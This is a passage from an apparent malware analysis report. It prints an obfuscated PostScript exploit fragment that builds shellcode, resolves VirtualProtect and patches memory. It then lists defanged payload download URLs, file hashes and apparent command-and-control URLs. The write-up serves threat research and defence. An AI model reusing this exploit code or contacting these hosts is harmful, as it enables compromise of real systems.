00498B5B20498B6B28498B7330498BE3415F415E5FC34883EC28E89FEDFFFF33C04883C428C3> def /Y78 { /Y79 exch def /Y80 exch def /Y81 Y79 length def { Y80 Y81 Y30 Y79 Y81 Y72 0 eq { exit } if /Y80 Y80 1 add def } loop Y80 } bind def Y13 Y10 aload /Y82 true def /Y83 0 def { .eqproc /Y69 0 def Y6 { /Y82 true def /Y3 Y7 Y69 get def /Y85 Y3 length 16#20 sub def Y3 Y85 get { /Y82 false def } repeat Y82 { exit } if /Y69 Y69 1 add def } repeat Y82 { exit } if } loop Y2 0 Y2 Y3 Y85 16#18 add 16#7E put Y3 Y85 16#19 add 16#12 put Y3 Y85 16#1A add 16#00 put Y3 Y85 16#1B add 16#80 put put 16#10 { Y11 aload } repeat /Y86 Y2 0 get 4 4 getinterval def /Y87 Y86 0 get Y86 1 get 8 bitshift or Y86 2 get 16 bitshift or Y86 3 get 24 bitshift or def 0 1 15 { /Y53 exch def /Y22 Y53 15 bitshift Y87 add def /Y21 Y53 16#FFF and 3 bitshift def /Y69 Y53 -12 bitshift def /Y20 Y2 Y69 get def Y20 Y21 16#7E put Y20 Y21 1 add 16#12 put Y20 Y21 2 add 16#00 put Y20 Y21 3 add 16#80 put Y20 Y21 4 add Y22 16#FF and put Y20 Y21 5 add Y22 -8 bitshift 16#FF and put Y20 Y21 6 add Y22 -16 bitshift 16#FF and put Y20 Y21 7 add Y22 -24 bitshift 16#FF and put } for 16 1 Y1 1 sub { /Y53 exch def /Y22 Y53 15 bitshift def /Y21 Y53 16#FFF and 3 bitshift def /Y69 Y53 -12 bitshift def /Y20 Y2 Y69 get def Y20 Y21 16#7E put Y20 Y21 1 add 16#12 put Y20 Y21 2 add 16#00 put Y20 Y21 3 add 16#80 put Y20 Y21 4 add Y22 16#FF and put Y20 Y21 5 add Y22 -8 bitshift 16#FF and put Y20 Y21 6 add Y22 -16 bitshift 16#FF and put Y20 Y21 7 add Y22 -24 bitshift 16#FF and put } for Y2 1 {lt} put /Y88 Y87 12 add Y16 4 add Y16 4 add Y16 4 add Y16 def /Y89 Y88 Y44 def /Y90 Y89 (KERNEL32.DLL) Y55 def /Y91 Y90 (VirtualProtect) Y61 def /Y92 Y90 (ExitProcess) Y61 def /Y93 Y89 <94C3> Y78 def /Y94 Y93 1 add def /Y95 Y89 <C20C00> Y78 def Y2 1 Y77 put /Y96 Y87 12 add Y16 def Y2 1 16#100 string put /Y97 Y87 12 add Y16 def /Y98 Y97 def Y98 Y98 4 add Y17 Y98 4 add 0 Y17 /Y99 Y97 16#30 add def Y2 1 currentfile put /Y100 Y87 12 add Y16 def Y97 Y98 Y17 Y97 4 add Y99 Y17 Y99 Y95 Y17 Y99 4 add Y94 Y17 Y99 16#0C add Y93 Y17 Y99 16#14 add Y91 Y17 Y99 16#18 add Y96 Y17 Y99 16#1C add Y96 Y17 Y99 16#20 add Y77 length Y17 Y99 16#24 add 16#40 Y17 Y99 16#28 add Y99 Y17 Y99 16#2C add Y92 Y17 Y100 16#B0 add Y97 Y17 Y100 16#98 add Y94 Y17 Y2 1 get closefile
```

To make things simpler, we extract the hex string and find out the URL to the payload as shown below.



We can see from the shellcode that it's downloading the payload from the following locations.
**hxxps://gozdeelektronik[.]net/wp-content/themes/0111/movie.jpg**

**hxxps://gozdeelektronik[.]net/wp-content/themes/0111/movie.png** but this is XOR encoded.

The sha256 of movie.jpg is **e6fc788b5ff7436da4450191a003966a68e2a1913c83f1d3aec78c65f3ba85ca**

The sha256 of movie.png is **9CA1BF4220297518CFE86AA1D20991C497294698A4FBF3C7A10475ED77C03ECA**

From the binaries, we can find the following:

|No.|URL|
|---|---|
|1|**hxxps://rxrenew[.]us/wp-content/themes/hestias/index.php**|
|2|**hxxps://creativefishstudio[.]com/newbiesspeak/left.php**|
|3|**hxxps://sensationalsecrets[.]com/js/left.php**|
